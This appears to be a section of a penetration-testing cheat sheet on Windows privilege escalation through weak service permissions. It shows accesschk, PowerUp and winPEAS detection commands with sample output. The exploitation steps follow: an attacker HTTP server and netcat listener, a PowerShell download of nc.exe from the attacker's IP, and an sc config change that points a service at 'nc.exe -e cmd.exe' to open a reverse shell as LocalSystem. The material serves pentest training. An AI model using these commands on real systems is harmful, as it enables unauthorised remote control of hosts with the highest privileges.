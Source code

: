 #### Weak service permission 

##### Detection

```
# Find all services authenticated users have modify access onto
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

if SERVICE_ALL_ACCESS then vulnerable

# Find all weak folder permissions per drive.
accesschk.exe /accepteula -uwdqs Users c:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe /accepteula -uwqs Users c:\*.*
accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
```

or

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service permissions...

ServiceName   : daclsvc
Path          : "C:\Program Files\DACL Service\daclservice.exe"
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'daclsvc'
CanRestart    : True
```

or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
	YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles

[+] Modifiable Services(T1007)
	LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
	daclsvc: WriteData/CreateFiles
```

##### Exploitation

```
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
sc config <SERVICENAME> binpath= "<PATH>\nc.exe <IP> <PORT> -e cmd.exe"
sc start <SERVICENAME>
or 
net start <SERVICENAME>
```

